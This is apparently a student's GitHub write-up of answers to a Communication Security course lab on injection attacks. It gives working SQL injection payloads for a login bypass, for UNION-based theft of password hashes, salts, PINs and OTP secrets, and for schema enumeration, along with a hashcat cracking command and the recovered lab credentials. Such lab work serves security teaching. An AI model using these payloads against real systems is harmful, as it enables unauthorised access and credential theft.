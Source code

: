 # KBE-Injections
Second lab of Communication Security course


# Answers
Here are the answers for this lab.

## Exercise 1
Login without password
```
' OR 1=1 #
```

## Exercise 2
I have used Selenium + LIKE operator to find the result in 40 iterations.
```
PIN of 'sinelser' is 3043 
```


## Exercise 3
To steal the secret was enough to use
```
badName' UNION SELECT secret AS username FROM users WHERE username LIKE 'sinelser' #
```

and I've got 
```
AWQJITSIA5MZXDBK   (secret)
```

Then I've generated OTP using Google Authenticator. 

## Exercise 4
To obtain a list of usernames, passwords, salts, secrets and pins I have used
 
```
offset=10 UNION SELECT CONCAT("  USERNAME IS ", username, "  PASSWORD IS  ", password, "  SALT IS  ", salt, "   PIN IS", pin, "  SECRET IS  ", secret) AS date_time, '' AS message FROM users
```

## Exercise 5
To obtain my password I've used BruteForce
```
Password for `sinelser` is ded93
```


## Exercise 6
To obtain teacher's password I've used prepared script to get a lot of popular passwords
The result file is 587 Mb. Then I have decided to use hashcat to go through all the combinations in that file.
Then I wrote method to add salt to each word and eventually run:
 
```
hashcat -a 0 -m 110 hashes.txt passwordsWithSalt.txt
```

Where `hashes.txt` has only hash of teacher's password and `passwordsWithSalt.txt` has a lot of passwords with put salt.

Password is
```
fm9fytmf7q
```

## Exercise 7
 Because password doesn't have any symbols like $_&#@(. Also it doesn't have Upper letters.

## Exercise 8
I've written 2 Injections:
1. Prints all column names
```
offset=10 UNION SELECT column_name AS message, '' AS date_time FROM information_schema.columns 
```
2. Prints all tables name
```
offset=10 UNION SELECT table_name AS message, '' AS date_time FROM information_schema.tables
```

## Exercise 9
 
```
Imposibile
```

